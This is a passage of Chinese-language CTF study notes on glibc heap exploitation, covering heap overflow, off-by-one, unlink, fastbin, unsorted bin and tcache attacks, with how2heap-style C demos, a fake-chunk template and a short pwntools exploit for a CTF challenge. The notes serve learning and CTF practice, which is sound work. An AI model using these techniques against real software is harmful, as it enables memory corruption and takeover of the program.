- `counts` 记录了 tcache_entry 链上空闲 chunk 的数目，每条链上最多可以有 7 个 chunk。

用图表示大概是：


#### 基本工作方式

- 第一次 malloc 时，会先 malloc 一块内存用来存放 `tcache_perthread_struct` 。
- free 内存，且 size 小于 small bin size 时
- tcache 之前会放到 fastbin 或者 unsorted bin 中
- tcache 后：
  - 先放到对应的 tcache 中，直到 tcache 被填满（默认是 7 个）
  - tcache 被填满之后，再次 free 的内存和之前一样被放到 fastbin 或者 unsorted bin 中
  - tcache 中的 chunk 不会合并（不取消 inuse bit）
- malloc 内存，且 size 在 tcache 范围内
- 先从 tcache 取 chunk，直到 tcache 为空
- tcache 为空后，从 bin 中找
- tcache 为空时，如果 `fastbin/smallbin/unsorted bin` 中有 size 符合的 chunk，会先把 `fastbin/smallbin/unsorted bin` 中的 chunk 放到 tcache 中，直到填满。之后再从 tcache 中取；因此 chunk 在 bin 中和 tcache 中的顺序会反过来

### 2.5 malloc_consolidate

该函数主要有两个功能

1. 若 fastbin 未初始化，即 global_max_fast 为 0，那就初始化 malloc_state。
2. 如果已经初始化的话，就合并 fastbin 中的 chunk。

## 3. 堆溢出

### 3.1 介绍

堆溢出是指程序向某个堆块中写入的字节数超过了堆块本身可使用的字节数（**之所以是可使用而不是用户申请的字节数，是因为堆管理器会对用户所申请的字节数进行调整，这也导致可利用的字节数都不小于用户申请的字节数**），因而导致了数据溢出，并覆盖到物理相邻的高地址的下一个堆块。

不难发现，堆溢出漏洞发生的基本前提是

- 程序向堆上写入数据。
- 写入的数据大小没有被良好地控制。
- 对于攻击者来说，堆溢出漏洞轻则可以使得程序崩溃，重则可以使得攻击者控制程序执行流程。

堆溢出是一种特定的缓冲区溢出（还有栈溢出， bss 段溢出等）。但是其与栈溢出所不同的是，堆上并不存在返回地址等可以让攻击者直接控制执行流程的数据，因此我们一般无法直接通过堆溢出来控制 EIP 。一般来说，我们利用堆溢出的策略是

1. 覆盖与其**物理相邻**的下一个 chunk 的内容。
   - prev_size
   - size，主要有三个比特位，以及该堆块真正的大小。
     - NON_MAIN_ARENA
     - IS_MAPPED
     - PREV_INUSE
     - the True chunk size
   - chunk content，从而改变程序固有的执行流。
2. 利用堆中的机制（如 unlink 等 ）来实现任意地址写入（ Write-Anything-Anywhere）或控制堆块中的内容等效果，从而来控制程序的执行流。

### 3.2 利用套路

#### 寻找堆分配函数

通常来说堆是通过调用 glibc 函数 malloc 进行分配的，在某些情况下会使用 calloc 分配。calloc 与 malloc 的区别是 **calloc 在分配后会自动进行清空**，这对于某些**信息泄露漏洞**的利用来说是致命的。

```c
calloc(0x20);
//等同于
ptr=malloc(0x20);
memset(ptr,0,0x20);
```

除此之外，还有一种分配是经由 realloc 进行的，realloc 函数可以身兼 malloc 和 free 两个函数的功能。

```c
#include <stdio.h>

int main(void)
{
  char *chunk,*chunk1;
  chunk=malloc(16);
  chunk1=realloc(chunk,32);
  return 0;
}
```

realloc 的操作并不是像字面意义上那么简单，其内部会根据不同的情况进行不同操作

- 当 realloc(ptr,size) 的 size 不等于 ptr 的 size 时
  - 如果申请 size > 原来 size
    - 如果 chunk 与 top chunk 相邻，直接扩展这个 chunk 到新 size 大小
    - 如果 chunk 与 top chunk 不相邻，相当于 free(ptr),malloc(new_size)
  - 如果申请 size < 原来 size
    - 如果相差不足以容得下一个最小 chunk(64 位下 32 个字节，32 位下 16 个字节)，则保持不变
    - 如果相差可以容得下一个最小 chunk，则切割原 chunk 为两部分，free 掉后一部分
- 当 realloc(ptr,size) 的 size 等于 0 时，相当于 free(ptr)
- 当 realloc(ptr,size) 的 size 等于 ptr 的 size，不进行任何操作

#### 寻找危险函数

通过寻找危险函数，我们快速确定程序是否可能有堆溢出，以及有的话，堆溢出的位置在哪里。

常见的危险函数如下

- 输入
  - gets，直接读取一行，忽略 '\x00'
  - scanf
  - vscanf
- 输出
  - sprintf
- 字符串
  - strcpy，字符串复制，遇到 '\x00' 停止
  - strcat，字符串拼接，遇到 '\x00' 停止
  - bcopy

#### 确定存在的漏洞

常见的漏洞有

- use after free
  - 内存块被释放后，其对应的指针没有被设置为 NULL ，然后在它下一次被使用之前，没有代码对这块内存块进行修改，那么程序很有可能可以正常运转。
  - 内存块被释放后，其对应的指针没有被设置为 NULL，但是在它下一次使用之前，有代码对这块内存进行了修改，那么当程序再次使用这块内存时，就很有可能会出现奇怪的问题。

#### 确定填充长度

这一部分主要是计算我们开始写入的地址与我们所要覆盖的地址之间的距离。 一个常见的误区是 malloc 的参数等于实际分配堆块的大小，但是事实上 ptmalloc 分配出来的大小是对齐的。这个长度一般是字长的 2 倍，比如 32 位系统是 8 个字节，64 位系统是 16 个字节。但是对于不大于 2 倍字长的请求，malloc 会直接返回 2 倍字长的块也就是最小 chunk，比如 64 位系统执行`malloc(0)`会返回用户区域为 16 字节的块。

```c
#include <stdio.h>

int main(void)
{
  char *chunk;
  chunk=malloc(0);
  puts("Get input:");
  gets(chunk);
  return 0;
}
```

```
//根据系统的位数，malloc会分配8或16字节的用户空间
0x602000:   0x0000000000000000  0x0000000000000021
0x602010:   0x0000000000000000  0x0000000000000000
0x602020:   0x0000000000000000  0x0000000000020fe1
0x602030:   0x0000000000000000  0x0000000000000000
```

还有一点是之前所说的用户申请的内存大小会被修改，其有可能会使用与其物理相邻的下一个 chunk 的 prev_size 字段储存内容。回头再来看下之前的示例代码

```c
#include <stdio.h>

int main(void)
{
  char *chunk;
  chunk=malloc(24);
  puts("Get input:");
  gets(chunk);
  return 0;
}
```

观察如上代码，我们申请的 chunk 大小是 24 个字节。但是我们将其编译为 64 位可执行程序时，实际上分配的内存会是 16 个字节而不是 24 个。

```
0x602000:   0x0000000000000000  0x0000000000000021
0x602010:   0x0000000000000000  0x0000000000000000
0x602020:   0x0000000000000000  0x0000000000020fe1
```

### 3.3 小知识

1. 当申请一个很大的地址空间时，堆会以 mmap 模式进行扩展，这样一来，这个 chunk 就会被单独映射到一块内存空间中。而使用 mmap 映射的内存地址与 libc 之间的偏移量时一个固定值，因此可以通过泄露这个超大 size 的堆的地址来计算得到 libc 的地址。

```
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/vb/ 桌面 /123/123
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/vb/ 桌面 /123/123
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/vb/ 桌面 /123/123
0x00007f8d638a3000 0x00007f8d63a63000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f8d63a63000 0x00007f8d63c63000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f8d63c63000 0x00007f8d63c67000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f8d63c67000 0x00007f8d63c69000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007f8d63c69000 0x00007f8d63c6d000 0x0000000000000000 rw-
0x00007f8d63c6d000 0x00007f8d63c93000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
0x00007f8d63e54000 0x00007f8d63e79000 0x0000000000000000 rw- <=== mmap
0x00007f8d63e92000 0x00007f8d63e93000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007f8d63e93000 0x00007f8d63e94000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007f8d63e94000 0x00007f8d63e95000 0x0000000000000000 rw-
0x00007ffdc4f12000 0x00007ffdc4f33000 0x0000000000000000 rw- [stack]
0x00007ffdc4f7a000 0x00007ffdc4f7d000 0x0000000000000000 r-- [vvar]
0x00007ffdc4f7d000 0x00007ffdc4f7f000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
```

## 4. off-by-one

### 4.1 介绍

严格来说 off-by-one 漏洞是一种特殊的溢出漏洞，off-by-one 指程序向缓冲区中写入时，写入的字节数超过了这个缓冲区本身所申请的字节数并且只越界了一个字节。

### 4.2 off-by-one 漏洞原理

off-by-one 是指单字节缓冲区溢出，这种漏洞的产生往往与边界验证不严和字符串操作有关，当然也不排除写入的 size 正好就只多了一个字节的情况。其中边界验证不严通常包括

- 使用循环语句向堆块中写入数据时，**循环的次数设置错误**（这在 C 语言初学者中很常见）导致多写入了一个字节。
- 字符串操作不合适
  一般来说，单字节溢出被认为是难以利用的，但是因为 Linux 的堆管理机制 ptmalloc 验证的松散性，基于 Linux 堆的 off-by-one 漏洞利用起来并不复杂，并且威力强大。 此外，需要说明的一点是 off-by-one 是可以基于各种缓冲区的，比如栈、bss 段等等，但是堆上（heap based） 的 off-by-one 是 CTF 中比较常见的。我们这里仅讨论堆上的 off-by-one 情况。

### 4.3 off-by-one 利用思路

1. 溢出字节为可控制任意字节：通过修改大小造成块结构之间出现重叠，从而泄露其他块数据，或是覆盖其他块数据。也可使用 NULL 字节溢出的方法。例如让字符串末尾无法填充`\x00`，这样通过打印字符串就可以获取这个字符串物理相邻地址的值。
2. 溢出字节为 NULL 字节：在 size 为 0x100 的时候，溢出 NULL 字节可以使得 prev_in_use 位被清，这样前块会被认为是 free 块。
   (1) 这时可以选择使用 unlink 方法（见 unlink 部分）进行处理。
   (2) 另外，这时 prev_size 域就会启用，就可以伪造 prev_size ，从而造成块之间发生重叠。此方法的关键在于 unlink 的时候没有检查按照 prev_size 找到的块的大小与 prev_size 是否一致。

最新版本代码中，已加入针对 2 中后一种方法的 check ，但是在 2.28 前并没有该 check 。

```c
/* consolidate backward */
    if (!prev_inuse(p)) {
      prevsize = prev_size (p);
      size += prevsize;
      p = chunk_at_offset(p, -((long) prevsize));
      /* 后两行代码在最新版本中加入，则 2 的第二种方法无法使用，但是 2.28 及之前都没有问题 */
      if (__glibc_unlikely (chunksize(p) != prevsize))
        malloc_printerr ("corrupted size vs. prev_size while consolidating");
      unlink_chunk (av, p);
    }
```

### 4.4 实例

第二种常见的导致 off-by-one 的场景就是字符串操作了，常见的原因是字符串的结束符计算有误

```c
int main(void)
{
    char buffer[40]="";
    void *chunk1;
    chunk1=malloc(24);
    puts("Get Input");
    gets(buffer);
    if(strlen(buffer)==24)
    {
        strcpy(chunk1,buffer);
    }
    return 0;

}
```

程序乍看上去没有任何问题（不考虑栈溢出），可能很多人在实际的代码中也是这样写的。 但是 strlen 和 strcpy 的行为不一致却导致了 off-by-one 的发生。 strlen 是我们很熟悉的计算 ascii 字符串长度的函数，这个函数在计算字符串长度时是不把结束符 `'\x00'` 计算在内的，但是 strcpy 在复制字符串时会拷贝结束符 `'\x00'` 。这就导致了我们向 chunk1 中写入了 25 个字节，我们使用 gdb 进行调试可以看到这一点。

```
0x602000:   0x0000000000000000  0x0000000000000021 <=== chunk1
0x602010:   0x0000000000000000  0x0000000000000000
0x602020:   0x0000000000000000  0x0000000000000411 <=== next chunk
```

在我们输入'A'\*24 后执行 strcpy

```
0x602000:   0x0000000000000000  0x0000000000000021
0x602010:   0x4141414141414141  0x4141414141414141
0x602020:   0x4141414141414141  0x0000000000000400
```

可以看到 next chunk 的 size 域低字节被结束符 `'\x00'` 覆盖，这种又属于 off-by-one 的一个分支称为 NULL byte off-by-one，我们在后面会看到 off-by-one 与 NULL byte off-by-one 在利用上的区别。 还是有一点就是为什么是低字节被覆盖呢，因为我们通常使用的 CPU 的字节序都是小端法的，比如一个 DWORD 值在使用小端法的内存中是这样储存的

```
DWORD 0x41424344
内存  0x44,0x43,0x42,0x41
```

## 5. unlink

### 5.1 原理

我们在利用 unlink 所造成的漏洞时，其实就是对 chunk 进行内存布局，然后借助 unlink 操作来达成修改指针的效果。

### 5.2 古老的 unlink

在最初 unlink 实现的时候，其实是没有对 chunk 的 size 检查和双向链表检查的，即没有如下检查代码。

```c
// 由于 P 已经在双向链表中，所以有两个地方记录其大小，所以检查一下其大小是否一致(size检查)
if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");               \
// 检查 fd 和 bk 指针(双向链表完整性检查)
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
  malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \

  // largebin 中 next_size 双向链表完整性检查
              if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)              \
                || __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    \
              malloc_printerr (check_action,                                      \
                               "corrupted double-linked list (not small)",    \
                               P, AV);
```

这里我们以 32 位为例，假设堆内存最初的布局是下面的样子


现在有物理空间连续的两个 chunk（Q，Nextchunk），其中 Q 处于使用状态、Nextchunk 处于释放状态。那么如果我们通过某种方式（比如溢出）将 Nextchunk 的 fd 和 bk 指针修改为指定的值。则当我们 free(Q) 时

- glibc 判断这个块是 small chunk
- 判断前向合并，发现前一个 chunk 处于使用状态，不需要前向合并
- 判断后向合并，发现后一个 chunk 处于空闲状态，需要合并
- 继而对 Nextchunk 采取 unlink 操作

那么 `unlink(Nextchunk)` 具体执行的效果是什么样子呢？我们可以来分析一下, 将`Nextchunk`记为`P`

- `FD = P->fd = target_addr - 12 (三个字长)`
- `BK = P->bk = expect_value`
- `FD->bk = BK`, 即 `FD->bk = *(target_addr - 12 + 12) = BK = expect_value` <=> `*target_addr = expect_value`, 这里的`12`意思是 3 个字长, 即 3\*0x4(在 64 位下是 3\*0x8), 因为对于一个 chunk 来说, 可以将他成一个数组, 那么`chunk[0]`存储的就是 prev_size, `chunk[1]`存储的是 size, `chunk[2]`存储的是 fd, `chunk[3]`存储的是 bk, 在 32 位系统下, 这个 chunk 的每个字段长度就是`0x4`
- `BK->fd = FD`, 即`BK->fd = *(expect_value + 8) = FD = target_addr - 12`

**看起来我们似乎可以通过 unlink 直接实现任意地址读写的目的，但是我们还是需要确保 expect value +8 地址具有可写的权限。**

比如说我们将 target addr 设置为某个 got 表项，那么当程序调用对应的 libc 函数时，就会直接执行我们设置的值（expect value）处的代码。**需要注意的是，expect value+8 处的值被破坏了，需要想办法绕过。**

### 5.3 现代的 unlink

但是，现实是残酷的。我们刚才考虑的是没有检查的情况，但是一旦加上检查，就没有这么简单了。我们看一下对 fd 和 bk 的检查

```c
// fd bk
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
  malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \
```

此时

- FD->bk = target_addr - 12 + 12 = target_addr != P
- BK-fd = except_value + 8 != P

那么我们上面所利用的修改 GOT 表项的方法就可能不可用了。但是我们可以通过伪造的方式绕过这个机制。

首先我们通过覆盖，将 nextchunk(P)的 fd 指针指向了 fakeFD，将 nextchunk 的 bk 指针指向了 fakeBK 。那么为了通过验证，我们需要

- `fakeFD -> bk == P` <=> `*(fakeFD + 12) == P` <=> `fakeFD = P - 12`
- `fakeBK -> fd == P` <=> `*(fakeBK + 8) == P` <= > `fakeBK = P - 8`

满足上述关系并执行`unlink(nextchunk)`时，会进行如下操作：

- `P->fd->bk = fakeFD->bk = fakeBK` <=> `*(P - 12 + 12) = P - 8` <=> `P = P -8`
- `P->bk->fd = fakeBK->fd = fakeFD` <=> `*(P - 8 + 8) = P - 12` <=> `P = P - 12`

即通过此方式，P 的指针指向了比自己低 12 的地址处。此方法虽然不可以实现任意地址写，但是可以修改指向 chunk 的指针，这样的修改是可以达到一定的效果的。

如果我们想要使得两者都指向 P，只需要按照如下方式修改即可


因此对于 unlink 的题目来说，如果需要构造 fake chunk 来进行 unlink，那么构造 fake chunk 的方法是一个定式：

```
fake_chunk = p64(0) + p64(0x20)  # unlink的chunk一定的inuse一定要设置为0
fake_chunk += p64(fake_chunk_addr - 3*SIZE_SZ) + p64(fake_chunk_addr - 2*SIZE_SZ)  # 32位程序SIZE_SZ=0x4, 64位下为0x8
fake_chunk += p64(0x20)  # 下一个chunk的prev_size, 为了过check
fake_chunk += p64(0x20)  # 下一个chunk的size，应与实际一致，注意prev_inuse位必须为0，否则不会触发unlink
```

剩余的空间可以看情况填充其他数据。

### 5.4 利用思路

#### 条件

1. UAF ，可修改 free 状态下 **smallbin** 或是 **unsorted bin** 的 fd 和 bk 指针，不能是 fastbin，因为 fastbin 不是双向链表
2. 已知位置存在一个指针指向可进行 UAF 的 chunk
3. 通过溢出可以在某个 chunk 的物理相邻处布置一个 fake chunk，且有一个已知的指针指向这个 chunk

#### 效果

使得已指向 UAF chunk 的指针 ptr 变为 ptr - 3\*SIZE_SZ

#### 思路

设指向可 UAF 或布置 fake chunk 的 chunk 的指针的地址为 ptr

1. 修改 fd（或 fake_chunk 的 fd） 为 ptr - 3\*SIZE_SZ
2. 修改 bk（或 fake_chunk 的 fd）为 ptr - 2\*SIZE_SZ
3. 设法触发 unlink

## 6. fastbin attack

在这一节, 我们介绍如何通过滥用 fastbin 空闲列表(freelist)，诱使 malloc 返回已经分配的堆指针.  
由于在 glibc >= 2.27 中使用了 tcache 技术, 传统的 fastbin 无法利用成功.

### 6.1 基本原理

---

- **如何使用不同的 glibc 加载程序?**

```python
from pwn import *
p = process(["pwn_file"], env={"LD_PRELOAD": "libc_file"})
```

---

假设我们使用 calloc 申请了 3 个 buffer

```c
	int *a = calloc(1, 8);  // chunk1 0x5627dd491360
	int *b = calloc(1, 8);  // chunk2 0x5627dd491380
	int *c = calloc(1, 8);  // chunk3 0x5627dd4913a0
```

现在我们 free 掉 a 指向的 chunk1, chunk1 会被添加到 free list 的头部.

```c
free(a);
```

此时 chunk1 已经处于 free list 的头部, 再次执行 free(a)将会导致程序崩溃.  
但是由于 free 函数只检查当前 free 的对象与 free list 的头部指针是否指向同一位置, 并不会与 free list 中剩下的元素进行检查. 因此我们先 free chunk2, 再 free chunk1

```
free(b);
free(a);
```

这样一来, free list 中会被依次在头部插入 chunk2 和 chunk1, 程序就不会崩溃, 此时 a 就被 double free 了, 此时的 free list 长这样:

```
|free_list| -> |chunk1| -> |chunk2| -> |chunk1|
                               ↑______________|
```

现在我们使用 calloc 再次申请 buffer

```c
	a = calloc(1, 8);  // 0x5627dd491360
	b = calloc(1, 8);  // 0x5627dd491380
	c = calloc(1, 8);  // 0x5627dd491360
```

申请空间时, calloc 会依次从 free list 的头部取出以"free"的 chunk 并返回. 因此 a 和 c 指向的地址空间是同一个地址空间的.  
下面我们使用此原理欺骗 malloc 来返回一个我们可控的区域的指针

### 6.2 fastbin_dup_into_stack

这个例子将演示如何利用 double-free 和 fastbin-attack 将 malloc 指针劫持到栈上  
首先在栈上声明一个字长 8 位的变量, 例子中使用了`unsigned long long`类型, 并使用 malloc 申请三个 chunk

```c
    unsigned long long stack_var; // 0x7fffffffda58 in stack
    int *a = malloc(8);  // chunk1 0x555555757260
    int *b = malloc(8);  // chunk2 0x555555757280
    int *c = malloc(8);  // chunk3 0x5555557572a0
```

再依次 free chunk1,chunk2,chunk1:

```c
    free(a);
    free(b);
    free(a);
```

此时的 fastbin 如下所示:  

这时如果我们申请一个大小为 8 的 chunk, 那么该 chunk 的地址与先前 free 的 chunk1 地址相同

```
    unsigned long long *d = malloc(8); // 0x555555757260
```

这时的`d`的地址和 fastbin 中剩下的那个 chunk1 地址一致, 如果此时我们令 d 指向栈上的 stack_var

```c
stack_var = 0x20;
*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));  // 修改chunk1的fd指针指向stack_var-8, 此时chunk1还在freelist中
malloc(8); // 与chunk2地址相同 0x555555757280
```

那么此时的 freelist 变为:

```
|free_list| -> |chunk1| -> |&stack_var-8|
```

现在我们再申请一个地址就能将栈地址放到 free list 的头部了:

```
malloc(8); // 与chunk1地址相同 0x555555757260
malloc(8); // &stack_var - 8, 0x7fffffffda48
```

此时我们控制了 malloc 的返回地址, 将 malloc 的地址分配到了栈上.

### 6.3 利用方式

我们可以将利用 double-free 和 fastbin-attack 将 malloc 劫持到`__malloc_hook`中. 但是要注意, malloc 的地址必须是一个合法的 fastbin chunk 结构, 必须有`size`位.

类似于如下形似:

```
0x5577ea4ec420: 0x0000000000000420      0x0000000000000021   # 劫持的地址格式应该和这里一样
0x5577ea4ec430: 0x00007ff53e1feb10      0x00007ff53e1fed00
0x5577ea4ec440: 0x0000000000000440      0x0000000000000021
```

而在`__malloc_hook`附近恰好有这么一个地址, 它在`__malloc_hook-0x23`处:

```gdb
pwndbg> x/20gx (long long)&__malloc_hook - 0x23
0x7f1992c30aed <_IO_wide_data_0+301>:   0x1992c2f260000000      0x000000000000007f  # 0x7f恰好在fastbin的size范围内
0x7f1992c30afd: 0x19928f1ea0000000      0x19928f1a7000007f
0x7f1992c30b0d <__realloc_hook+5>:      0x000000000000007f      0x0000000000000000
0x7f1992c30b1d: 0x0000000000000000      0x1992c30b00000000
```

此外, 还需让 malloc 的`size`大小为`0x70`才能通过 glibc 的检查

## 7. unsorted bin attack

### 7.1 原理

通过堆溢出的方式, 修改物理相邻 chunk 的 size 字段, 使之大小处于 unsorted bin 的大小范围, 且这个 size 包含了下下个 chunk。我们记这两个 chunk 为 chunk1 和 chunk2. 显然当我们 free chunk1 的时候，chunk1 的首地址会被记录在 unsorted bin 中。

此时申请 size 为 chunk1 原本 size 的 chunk3，chunk3 将会被 unsorted bin 中分割出，此时 unsorted bin 中记录的是 chunk2 的地址。再申请 size 为 chunk2 原本 size 的 chunk4，此时 unsorted bin 链表为空，chunk4 的地址与 chunk2 相同。free chunk4，chunk4 将进入 fastbin，但我们可以通过编辑 chunk2，实现控制 fastbin，通过设置 chunk2 的 fd 字段，我们就可以控制 fast bin 的尾链表，将我们下一次申请的 chunk 地址分配至任意地址。

### 7.2 例题 1 ZJCTF2019-EasyHeap

该题存在一个全部变量 heaparray，用于存放堆指针
提供增删改功能操作堆。修改堆的功能可以在堆中输入任意长度的内容，存在堆溢出

利用步骤

1. 申请任意一个小的`chunk0`，我们利用 chunk0 实施溢出
2. 申请`chunk1`和`chunk2`两处空间，`chunk1`和`chunk2`大小应在`fastbin`范围内且相同，但`size(chunk1)+size(chunk2)`比 0x80 大，在 fastbin 的范围外
3. 申请任意一个`chunk4`, 防止之后的 free 造成 chunk 与 top chunk 合并
4. 对`chunk0`进行堆溢出，覆盖`chunk1`的`size`字段为`size(chunk1)+size(chunk2)`
5. free `chunk1`, 由于通过堆溢出修改了`chunk1`的`size`, 所以`chunk1`被 free 之后会进入`unsorted bin`
6. 申请`chunk5`, 大小为`size(chunk1)`注意`chunk5`的地址与`chunk1`是相同的, 同时`unsorted bin`中的`chunk1`被分割, 分割后的 bin 地址恰好为`chunk2`的地址
7. 申请`chunk6`, 大小为`size(chunk2)`,注意此时`chunk6`的地址与`chunk2`相同, 他将`unsorted bin`中剩余的 bin 申请走了
8. free `chunk6`, `chunk6`会进入`fastbin`链表中, 此时通过编辑`chunk2`, 我们就可以修改`fastbin`了
9. edit `chunk2`, 将`chunk2`的第一个`SIZE_SZ`改为我们想要控制的地址, 此时 fastbin 结构如下:

```
|fastbin|: chunk6_addr —▸ target_addr ◂— 0x0
```

10. 申请大小为`size(chunk1)`的`chunk7`和`chunk8`, `malloc`会从`fastbin`中以此取出 bin 给这两个 chunk, 因此`chunk8`的地址就是`target_addr`
11. 通过编辑`chunk8`, 我们就可以修改`chunk8+0x10`开始的地址了

exp:

```
target_addr = 0x6020ad
content = 'a'*3 + p32(0x1306)
create(0x18, b'a') # 0
create(0x68, b'a') # 1
create(0x68, b'a') # 2
create(0x18, b'a') # 3
edit(0, 0x20, b'a' * 0x18 + p64(0xe1))
delete(1)
create(0x68, b'a') # 1
create(0x68, b'a') # 4 2
delete(4)
edit(2, 0x8, p64(target_addr))
create(0x68, b'b' *0x8)
create(0x68, content)

```

### 7.3 leak libc

一般来说，要实现 leak，需要有 `UAF`，将一个 chunk 放入`Unsorted Bin` 中后再打出其 `fd`。一般的笔记管理题都会有 show 的功能，对处于链表尾的节点 show 就可以获得 `libc` 的基地址了。

特别的，CTF 中的利用，堆往往是刚刚初始化的，所以 `Unsorted Bin` 一般都是干净的，当里面只存在一个 bin 的时候，该 bin 的 `fd` 和 `bk` 都会指向 `main_arena` 中。

比较巧合的是，`main_arena` 和 `__malloc_hook` 的地址差是 0x10，而大多数的 `libc` 都可以直接查出 `__malloc_hook` 的地址，这样可以大幅减小工作量。以 pwntools 为例:

```
main_arena_offset = ELF("libc.so.6").symbols["__malloc_hook"] + 0x10
```

另外，如果我们无法做到访问链表尾，但是可以访问链表头，那么在 32 位的环境下，对链表头进行 `printf` 等往往可以把 `fd` 和 `bk` 一起输出出来，这个时候同样可以实现有效的 leak。然而在 64 位下，由于高地址往往为 `\x00`，很多输出函数会被截断，这个时候可能就难以实现有效 leak。

## 8. tcache attach

`tcache`在`glibc>2.28`中被引入. 类似于`fastbin`, `tcache`的链表使用 FILO 的模式.

### 8.1 tcache poisoning

#### 原理

通过覆盖`tcache`的`fd`字段, 可以达到 malloc 任意地址的效果, 类似于`fastbin attack`

#### 例子

以`how2heap`中的`tcache posioning`为例:
首先申请两个大小为 128 的 chunk, 128 在 tcache 的大小范围内, 和一个位于栈中的变量.

```c
size_t stack_var;  // the address we want to alloc, 0x7fffffffe148
intptr_t *a = malloc(128);  // chunk1, 0x5555557572f0
intptr_t *b = malloc(128);  // chunk2, 0x555555757260
```

然后再释放这两个 chunk

```c
free(a);
free(b);
```

此时, 的 tcache 链表如下:

```
0x90 [  2]: 0x5555557572f0 —▸ 0x555555757260 ◂— 0x0
```

然后通过修改`b[0]`来修改 chunk2 的`fd`字段, 实际题目中可以通过溢出的方式修改`fd`

```c
b[0] = (intptr_t)&stack_var;
```

此时, chunk2 的`fd`字段变成了栈上的某个地址, tcache 链表如下:

```
0x90 [  2]: 0x5555557572f0 —▸ 0x7fffffffe148 ◂— 0x0
```

再申请两个大小为 128 的 chunk:

```c
malloc(128);  // chunk3, 0x5555557572f0
intptr_t *c = malloc(128);  // chunk4, 0x7fffffffe148
```

chunk4 就申请到了我们设置的栈上的地址.

### 8.2 tcache dup

#### 原理

`tcache`几乎不对`double free`进行检测, 因此我们可以对同一个 chunk 多次 free. 适用的 glibc 版本: 2.26-2.28

#### 例子

以`how2heap`的`tcache_dup`为例

```
int *a = malloc(8);
free(a);
free(a);

void *b = malloc(8);
void *c = malloc(8);

assert((long)b == (long)c);
```

似乎 glibc 2.27 添加了的 double free 的检测, 没有复现成功

### 8.3 tcache house of spirit

#### 原理

通过溢出的方式, 构造出一个`fake_chunk`, 此`fake_chunk`的`size`范围需在`tcache`的范围之内(`chunk.size<= 0x410`). 由于`tcache_put()`函数缺乏安全检查, 我们不需要像原始的 house of spirit 一样, 在此 fake_chunk 物理相邻之后再申请一个 fake_chunk. 因此直接 free 掉这个 fake_chunk, 他就会进入 tcache 链表, 下次 malloc 指定 size 的 chunk 时, 就会获取到 fake_chunk 的地址

#### 例子

以`how2heap`的`tcache_house_of_spirit`为例, 首先使用 malloc 申请一个内存, 并假设我们使用溢出的方式构造了一个 fake_chunk, 或者找到了一个符合条件的 fake_chunk, 并让某个指针指向了该 fake_chunk

```c
malloc(1);
unsigned long long *a;  //pointer that will be overwritten
unsigned long long fake_chunks[10];  //fake chunk region
fake_chunks[1] = 0x40; // this is the size
```

现在, 我们使用 fake_chunk 的内容区域首地址, 去覆盖我们的指针. 注意这个内容区域的首地址必须是 16 比特对齐的.

```
a = &fake_chunk[2];
free(a);
```

free 之后, fake_chunk 进入了 tcache 链表, 下一次 malloc 时, 就会获取到这个 fake_chunk 的地址

```
void *b = malloc(0x30);
assert((long)b == (long)&fake_chunks[2]);
```

#### 应用

一般地, 在`__malloc_hook`附件, 存在 0x00007f????????之类的值, 其中若依某个地址为起点, 就会变成`0x0x000000000000007f`, 这个值可以作为 fake_chunk 的 size 字段, 该地址-0x10 就可以作为 fake_chunk 的首地址.

### 8.4 将 tcache attack 转换为 fastbin attack

由于 tcache 各个特定大小链表, 至多只能存储 7 个 bin, 因此只要将 tcache 链表先填满, 下次 free 时, 就会将 bin 放入 fastbin 中

## 9. musl pwn

mal.bin == free list

> TODO
> https://www.anquanke.com/post/id/202253#h2-9
